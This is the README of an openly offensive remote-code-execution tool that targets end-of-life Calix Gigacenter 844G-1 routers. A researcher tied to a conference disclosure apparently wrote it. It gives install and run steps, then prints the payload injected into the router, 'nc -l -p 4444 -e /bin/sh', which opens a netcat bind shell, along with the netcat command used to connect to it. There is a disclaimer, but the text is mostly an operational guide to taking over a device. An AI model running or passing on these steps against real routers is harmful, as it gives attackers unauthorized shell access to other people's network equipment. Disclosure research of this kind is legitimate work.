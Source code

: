 # RCE-Calix-Gigacenter

![tool](tool.png)

Remote Code Execution (RCE) exploit targeting **Calix Gigacenter ONT routers**, specifically tested on the **Calix 844G-1** model. These routers are **End of Life (EOL)**, and this exploit takes advantage of a zero-day vulnerability discovered in **February 2025**.

This and four other zero-days will be publicly presented at **Recon 2025**, held in Montreal on **June 29, 2025**.

## ⚠️ Disclaimer
This tool is intended **only for educational and ethical hacking purposes**.  
Do not use it against any device without **explicit authorization**.  
The author is not responsible for any misuse.

## 🛠️ Installation

Only one dependency is required:

```bash
pip install requests
```

## How to Use

Run the exploit script:

```bash
python3 rce-calix-gigacenter.py
```

Once executed, the exploit will inject the following command into the vulnerable router:

```bash
nc -l -p 4444 -e /bin/sh &
```

You will see a message like:

```
Backdoor into the router, try to connect with netcat to the port 4444!
```

Then, connect to the reverse shell with `netcat`:

```bash
nc 169.254.1.2 4444
```

**Enjoy your shell!**

## Exploit Timeline

- **Zero-day discovered:** February 2025
- **Public disclosure:** June 29, 2025 at Recon Montreal
[demo-exploit](final-rce-poc.webm)

## Author
**Danilo Erazo** (`@revers3vrything`)  
Hardware Security Researcher and Speaker at:
- Hardwear.io USA 2025
- DEFCON 32
- Ekoparty 2024 & 2023
- Re//verse 2025, etc

© 2025 Danilo Erazo (@revers3vrything)